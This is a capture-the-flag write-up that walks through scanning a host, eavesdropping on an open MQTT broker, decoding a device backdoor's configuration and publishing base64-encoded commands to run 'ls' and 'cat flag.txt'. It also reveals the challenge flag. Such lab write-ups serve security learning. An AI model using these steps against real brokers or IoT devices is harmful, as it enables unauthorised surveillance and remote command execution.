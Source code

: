 First of all, run nmap on the ipaddress [nmap <IP_ADDRESS>]. But this did not give any open ports. So we have to move towards the scanning of all ports [nmap -p 1-65535 -T4 -Pn <IP_ADDRESS>] for aggressive scanning of all ports, which gave an open port [1883/tcp open mqtt]. MQTT is a standards-based protocol that's commonly used for data transmission between Internet of Things (IoT) devices and the cloud. It's designed for devices with limited network bandwidth or resource constraints, such as smart sensors and wearables.
Now we will be subsribing to the service to see the communication using the tool [mosquitto_sub] : [mosquitto_sub -h <IP_ADDRESS> -p 1883 -t "#"]. Here we are using [#] to subscribe to all topics. As a result, we can see some communication like:
```
{"id":129618052497693049,"color":"GREEN","status":"ON"}
{"id":1909226905601607364,"in_use":true,"temperature":159.55472,"toast_time":130}
{"id":15739021675742454388,"temperature":24.405937}
{"id":7735145274395155749,"gain":54}
{"id":17520807554009645173,"temperature":23.309986}
{"id":7444800185129679608,"color":"GREEN","status":"ON"}
{"id":9483337689556477149,"yaxis":-163.79924,"xaxis":124.93912,"zoom":1.823662,"movement":false}
{"id":13497795867139887626,"in_use":false,"temperature":146.00859,"toast_time":303}
{"id":10731702524761977214,"gain":47}
eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==
{"id":11806201323585827923,"temperature":24.21324}
```
The suspecious thing here is the base64 string. Lets decode it using Cuberchef, and it will give us:
```
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```
Here we got:
->The Device ID: "id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d". This is a UUID representing a unique identifier for the IoT device.
->Registered Commands: "registered_commands":["HELP","CMD","SYS"]. The device recognizes the commands HELP, CMD, and SYS, likely for remote control or debugging purposes.
-> Publish Topic: "pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub". The device uses this topic to publish data.
-> Subscribe Topic: "sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub". The device listens to this topic for commands or instructions.

Now we will subscribe to the publish topic to see the device's outgoing messages: [mosquitto_sub -h <IP_ADDRESS> -p 1883 -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub"]. Simultaneously, run [mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "HELP"] in different terminal to send the message. From this, we will receive a base64 string in the terminal where we subscribed the publish topic [SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=].
Decode this string and it will give:
```
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
```
So, we came to know the exact format for running the command. Encode the following into base64: [{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}], it will give an encoding [eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==]. Actually we are trying to execute [ls] command.

Again send this as a message to the terminal: [mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ=="]. This time, we will receive a base64 encoding [eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9]. Decode this and it will give [{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}]. It means that the file for the flag is present in the same directory.
Hence, we will modify the command again get the response on the subscribed terminal. Encode [{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}] into base64 and send it in the terminal [mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0="]. In the subscribed terminal, we will recieve [eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9].
Decode it and it will reveal the flag [{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag{18d44fc0707ac8dc8be45bb83db54013}\n"}].

